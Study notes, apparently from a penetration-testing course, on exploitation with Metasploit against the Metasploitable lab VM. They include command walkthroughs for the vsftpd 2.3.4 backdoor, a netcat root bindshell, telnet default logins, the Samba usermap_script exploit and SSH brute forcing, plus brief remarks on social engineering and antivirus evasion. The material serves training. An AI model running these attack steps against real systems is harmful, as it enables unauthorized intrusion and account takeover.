 # Exploitation

We exploit one of the vulnerabilities we discovered to send a payload to the target. This will allow us to execute commands on the target system and navigate files. 

The payload tells the target system to make a connection to the hacker's computer and allow it to execute commands.

Social engineering is used whenever there are no known vulnerabilities on a target. We would try to get the target to open our payload themselves through a spoofed email or USB drive.

## Vulnerabilities

Exploitable vulnerabilities are possible because ports must be open on computers in order to connect to the internet. The goal is to gain access to poorly written software through an open port on a computer.

However, a lot of companies are extremely secure, so the most vulnerable targets will be employees through social engineering attacks.

## Reverse and Bind Shells

Shells will usually be the payloads we drop on a target. There are two different types of shells we will use: reverse and bind.

Reverse shells will try to connect back to the hacker's computer through TCP connection.

Bind shells are used whenever the target has an open port, we connect to it with our computer and pass the payload. This are less common because of firewall security features.

## Metasploit Framework

Metasploit offers thousands of exploits (Ruby) for Windows, Mac, and Linux. It also offers payloads (singles - standalone payload like adding a user or running an application, stagers - set up connection between attacker and target, stages - components downloaded by stagers modules), auxiliary modules (scanning, fuzzing, and DoS), encoders (helps evade antivirus detection, but most antivirus software is familiar with this), evasion modules (similar to encoders), nops (stops programs from running to allocate memory for future programs), and post exploitation modules (gather info like files saved, passwords, dumping hashes, enumerating the services and applications, etc.) as well.

Navigate to the exploits folder of metasploit and `nano FILENAME` to see details of how the exploit works.

### Msfconsole

`msfconsole` - opens metasploitable console

`help` - shows available commands

`show MODULENAME` - list available commands within a specific module

`use MODULENAME/FILEPATH` - execute a module command
    `use exploit/windows/smb/ms06_040_netapi`
    `show info` - shows more information on command
    `show options` - options available for the command
    `set OPTION NEWVALUE` - update a specific option's value
    `show payloads` - shows list of payloads available for this specific exploit
    `show targets` - shows list of targets vulnerable to this specific exploit
    `exploit` - run exploit

### First Exploits 

### vsftp 2.3.4 Exploitation

`sudo nmap -sV METASPLOITABLE` - scan for open ports

`searchsploit vsftp 2.3.4` - search metasploit framework for known exploits

`search vsftp` - (in msfconsole)

`use EXPLOITPATH`

`show info` - learn more about this specific exploit

`show options` - see parameters we need to use

`set RHOSTS METASPLOITABLE` - update target ip

`show payloads` - see default payloads to be sent

`show targets`

`exploit` - run the exploit

`whoami` `pwd` `ifconfig` `exit`

### Bindshell Exploitation (Misconfiguration)

Sometimes misconfigurations happen. Metasploitable has it's root shell open on a port. This isn't an 'exploit', just a misconfiguration that allows us root access.

`nc -h` - menu for netcab. We can connect or listen for inbound connections to ports.

`nc METASPLOITABLE 1524` - gives us access to root account

### Telnet Exploitation (Information Disclosure)

Run when telnet port is open. Telnet requires username and password to login, sometimes these are set to default.

`telnet METASPLOITABLE` - pulls up metasploitable cli, which tells us the login information. Login doesn't give us root access, however

`sudo su` - gives access to root account

### Samba Exploitation (Software Vulnerability)

nmap scan shows samba is running on open port, but does not give us the specific version. Searchsploit returns a lot of results for known exploits for different Samba versions. We can use a metasploit module to help.

`use auxiliary/scanner/smb/smb_version`

`show info` - description shows this module displays system versions

`show options` - see required parameters

`set RHOSTS IPADDRESS`

`run` - returns the specific Samba version

`searchploit Samba 3.0.20` - look for executables

`search samba` - search metasploit to find searchploit reference

`use exploit/multi/samba/usermap_script`

`show info` `show options`

`run`

### Attacking SSH - Bruteforce

Send a lot of information to the target in order to figure out which information is correct. For instance, lots of username and password combinations.

`search ssh`

`use auxiliary/scanner/ssh/ssh_login`

`show options`

We will be creating a username file and password file to use.

`cd Desktop/` (new terminal)

`nano usernames.txt`

`nano passwords.txt`

We know msfadmin is username and password for the target machine, so we will add them to the files.

`set PASS_FILE FILE/PATH/TO/PASSWORDS` (metasploitable)

`set USER_FILE FILE/PATH/TO/USERNAMES`

`show options`

`set RHOSTS TARGETIP`

`set VERBOSE true`

`run`

This will output a list of successful and failed password attempts. When there's a successful attempt, metasploitable will save a shell session in the background.

`sessions` - see all running metasploitable shell sessions

`sessions -i ID` - enter specific shell instance

`whoami` - msfadmin

`sudo su` - msfadmin

`whomai` - root

`exit`

`ssh msfadmin@METASPLOITABLEIP`